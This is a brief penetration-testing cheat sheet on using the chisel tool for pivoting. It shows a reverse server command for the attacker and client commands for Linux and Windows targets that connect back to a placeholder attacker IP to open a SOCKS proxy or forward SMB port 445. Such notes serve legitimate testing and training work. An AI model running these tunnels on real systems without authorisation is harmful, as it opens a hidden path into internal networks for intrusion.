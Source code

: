 On the attacking machine run:

```bash
./chisel server -p 8002 --reverse
```

On target run:

Linux:

```bash
./chisel client <attacker_IP>:8002 R:1080:socks
```

Windows:

```bash
chisel.exe client <attacker_IP>:8002 R:1080:socks
```

Example of port forwarding single port:

```bash
.\chisel.exe client <attacker_IP>:8002 R:445:127.0.0.1:445
```
